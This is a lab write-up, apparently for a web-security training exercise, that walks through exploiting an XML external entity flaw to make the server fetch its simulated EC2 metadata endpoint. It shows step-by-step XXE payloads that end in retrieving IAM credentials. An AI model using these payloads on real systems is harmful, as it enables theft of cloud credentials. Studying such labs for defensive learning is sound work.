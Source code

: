 # Lab: Exploiting XXE to perform SSRF attacks

 This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

The lab server is running a (simulated) EC2 metadata endpoint at the default URL, which is http://169.254.169.254/. This endpoint can be used to retrieve data about the instance, some of which might be sensitive.

To solve the lab, exploit the XXE vulnerability to perform an SSRF attack that obtains the server's IAM secret access key from the EC2 metadata endpoint. 

# Step 1 Walk the application

I find that the the /product/stock page is using XML

![image](https://user-images.githubusercontent.com/83407557/210181558-a8dd22ab-b087-480e-9930-eedd13504826.png)

# Step 2 attempt XXE

I want to use the following XXE payload to try and reach the EC2 metadata endpoint by sending the found page to repeater

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>
```

And then test each parameter with `&xxe;`

**productId**

![image](https://user-images.githubusercontent.com/83407557/210181648-fc454941-5edd-405e-9d0e-407949e4dd1a.png)

# Step 3 adding to payload

I see that it returns latest, so I add that to the payload:

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest"> ]>
```

![image](https://user-images.githubusercontent.com/83407557/210181741-467e4036-7ec4-4275-8cd8-b25773f71a10.png)

# Step 4 adding to payload

repeating the process I add meta-data to payload

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data"> ]>
```
![image](https://user-images.githubusercontent.com/83407557/210181781-55294e6e-781a-49ec-b44e-b5e7f82890c1.png)

# Step 5 adding to payload


```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam"> ]>
```

![image](https://user-images.githubusercontent.com/83407557/210181794-e4437c6b-c2b0-47ff-88d5-dc557dea2cf1.png)

# Step 6 adding to payload


```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials"> ]>
```

![image](https://user-images.githubusercontent.com/83407557/210181824-62e39f0b-8d1b-491f-a879-237943f9493f.png)

# Step 7 adding to payload


```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
```
With this I cred the account id, secret key, and session token for this AWS instance:

![image](https://user-images.githubusercontent.com/83407557/210181878-1fc9892f-e36c-458c-9521-442dfb232ffa.png)

Finding these credentials I solve the lab:

![image](https://user-images.githubusercontent.com/83407557/210181892-c367dcc7-240d-4a5c-ae42-9a852c5649ec.png)
